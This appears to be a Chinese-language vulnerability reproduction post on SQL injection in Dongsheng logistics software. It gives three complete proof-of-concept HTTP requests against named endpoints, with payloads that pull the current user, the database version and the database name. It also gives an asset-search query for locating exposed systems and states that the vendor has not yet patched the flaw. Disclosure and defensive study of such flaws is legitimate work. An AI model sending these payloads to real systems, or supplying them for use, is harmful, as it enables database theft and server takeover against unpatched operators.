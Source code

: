 
# 东胜物流软件 SQL注入漏洞复现

### 0x01 产品简介

 东胜物流软件是一款致力于为客户提供IT支撑的 [SOP](https://so.csdn.net/so/search?q=SOP&spm=1001.2101.3001.7020)， 帮助客户大幅提高工作效率，降低各个环节潜在风险的物流软件。

### 0x02 漏洞概述

东胜物流软件 TCodeVoynoAdapter.aspx、/TruckMng/MsWlDriver/GetDataList、/MvcShipping/MsBaseInfo/SaveUserQuerySetting等接口处存在 [SQL](https://so.csdn.net/so/search?q=SQL&spm=1001.2101.3001.7020) 注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 复现环境

微步资产测绘：app=东胜物流软件

### ![](assets/1701134640-878dc246fd7b10e21623127a67e6d803.png)0x04 漏洞复现 

**PoC-1**

```cobol
GET /FeeCodes/TCodeVoynoAdapter.aspx?mask=0&pos=0&strVESSEL=1%27+and+user+%3E0%3B-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

查询当前用户

![](assets/1701134640-36b13a9ef03b3aa72cfa88ba10ca0a74.png)

**PoC-2** 

```cobol
GET /TruckMng/MsWlDriver/GetDataList?_dc=1665626804091&start=0&limit=30&sort=&condition=123+IN+(CHAR(113)%2bCHAR(120)%2bCHAR(112)%2bCHAR(113)%2bCHAR(113)%2bCHAR(32)%2b(select+%40%40version)%2bCHAR(32)%2bCHAR(113)%2bCHAR(122)%2bCHAR(107)%2bCHAR(113)%2bCHAR(113))--%20&page=1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

[查询数据库版本](https://so.csdn.net/so/search?q=%E6%9F%A5%E8%AF%A2%E6%95%B0%E6%8D%AE%E5%BA%93%E7%89%88%E6%9C%AC&spm=1001.2101.3001.7020)

![](assets/1701134640-9dae57672c471ee1226fc7bb54a662db.png)

PoC-3

```cobol
POST /MvcShipping/MsBaseInfo/SaveUserQuerySetting HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

formname=MsRptSaleBalProfitShareIndex'+AND+2523+IN+(SELECT+(CHAR(113)%2bCHAR(120)%2bCHAR(112)%2bCHAR(113)%2bCHAR(113)%2b(SELECT+SUBSTRING((ISNULL(CAST((+db_name%28%29)+AS+NVARCHAR(4000)),CHAR(32))),1,1024))%2bCHAR(113)%2bCHAR(122)%2bCHAR(107)%2bCHAR(113)%2bCHAR(113)))+AND+'uKco'%3d'uKco&isvisible=true&issavevalue=true&querydetail=%7B%22PS_MBLNO%22%3A%22%22%2C%22PS_VESSEL%22%3A%22%22%2C%22PS_VOYNO%22%3A%22%22%2C%22PS_SALE%22%3A%22%5Cu91d1%5Cu78ca%22%2C%22PS_OP%22%3Anull%2C%22PS_EXPDATEBGN%22%3A%222020-02-01%22%2C%22PS_EXPDATEEND%22%3A%222020-02-29%22%2C%22PS_STLDATEBGN%22%3A%22%22%2C%22PS_STLDATEEND%22%3A%22%22%2C%22PS_ACCDATEBGN%22%3A%22%22%2C%22PS_ACCDATEEND%22%3A%22%22%2C%22checkboxfield-1188-inputEl%22%3A%22on%22%2C%22PS_CUSTSERVICE%22%3Anull%2C%22PS_DOC%22%3Anull%2C%22hiddenfield-1206-inputEl%22%3A%22%22%7D}
```

 查询当前数据库

![](assets/1701134640-4f6d958652577c98a524e307f1dc7b17.png)

### 0x05 修复建议

官方暂未修复该漏洞，请用户联系厂商修复漏洞：http://www.dongshengsoft.com/

部署Web应用防火墙，对数据库操作进行监控。

如非必要，禁止公网访问该系统。

